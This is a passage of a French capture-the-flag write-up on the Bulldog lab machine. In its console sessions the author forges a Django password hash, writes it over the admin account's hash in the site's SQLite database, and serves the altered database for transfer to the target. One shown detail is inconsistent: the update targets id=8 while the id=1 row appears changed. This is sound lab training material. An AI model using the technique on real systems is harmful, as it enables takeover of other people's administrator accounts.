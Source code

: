 On remarque bien que le hash n'a pas la même forme que ceux stockés en base de données et, même en opérant quelques modifications
cosmétiques sur le hash ($pbkdf2-sha256 en pbkdf2_sha256 par exemple), cela ne marche toujours pas. Avec la bonne classe, c'est bien mieux.

```console
root@blinils:~# python
Python 2.7.14+ (default, Dec  5 2017, 15:17:02) 
[GCC 7.2.0] on linux2
Type "help", "copyright", "credits" or "license" for more information.
>>> from passlib.hash import django_pbkdf2_sha256 as handler
>>> hash = handler.using(rounds=20000).hash("blinils")
>>> hash
'pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI='
```

```console
root@blinils:~# sqlite3 db.sqlite3
SQLite version 3.22.0 2018-01-22 18:45:57
Enter ".help" for usage hints.

sqlite> .tables
auth_group                  auth_user_user_permissions
auth_group_permissions      django_admin_log          
auth_permission             django_content_type       
auth_user                   django_migrations         
auth_user_groups            django_session  
          
sqlite> .headers on

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$9k0TYJltYWk5$rE0aQA4DGFxEjBhBH0BEJhFsF2Jx63690a8VGE/9a+c=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> update auth_user set password="pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=" where id=8;

sqlite> select * from auth_user where id=1;
id|password|is_superuser|username|first_name|last_name|email|is_staff|is_active|date_joined|last_login
1|pbkdf2_sha256$20000$tsN1k683sqdZ$RrQ1fcwKsTHunSjEhgpcRCZN1A2kG6AOSAUWwuyhQzI=|1|admin|||admin@bulldogindustries.com|1|1|2017-08-18 22:42:27.888865|2017-08-19 06:14:22.419010

sqlite> ^Z
[1]+  Stopped                 sqlite3 db.sqlite3

root@blinils:~# python -m SimpleHTTPServer
Serving HTTP on 0.0.0.0 port 8000 ...
```

Une fois le changement opéré, la nouvelle base de données est transférée sur le serveur Bulldog.

